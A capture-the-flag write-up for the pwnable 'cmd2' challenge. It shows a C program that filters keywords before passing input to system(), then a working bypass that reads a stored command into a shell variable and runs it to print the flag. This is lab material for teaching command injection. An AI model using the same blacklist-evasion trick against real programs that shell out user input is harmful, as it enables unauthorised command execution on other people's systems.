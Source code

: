 I will be honest on this one, this took me a while to figure out.

This is a follow-up challenge from `cmd1`.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

In contrast to `cmd1`, this will delete all environment variables before calling `filter` which eliminates our solution to the previous challenge.

At the end i've come to a conclusion that I need some sorts of a bash bulitin to solve this since we cannot use any binaries because `PATH` is mangled, and after a lot of trials i found the following solution.

```bash
cmd2@pwnable:~$ mkdir /tmp/sols   
cmd2@pwnable:~$ cd /tmp/sols
cmd2@pwnable:/tmp/sols$ echo '/bin/cat /home/cmd2/flag' > sol  
cmd2@pwnable:/tmp/sols$ ~/cmd2 "read SOL < sol; \$SOL"
read SOL < sol; $SOL
FuN_*************************
```

What I did here was to create a file with the contents of our command, which executes `cat` on the flag, then i called `cmd2` and also called the bash builtin command `read` to read from the file and then redirect it to the environment variable "SOL", since `delete_env` is called before the `system` call we are fine with this because "SOL" will only be created on execution, then I just ran "\$SOL" to execute the env variable which gave us our flag :).
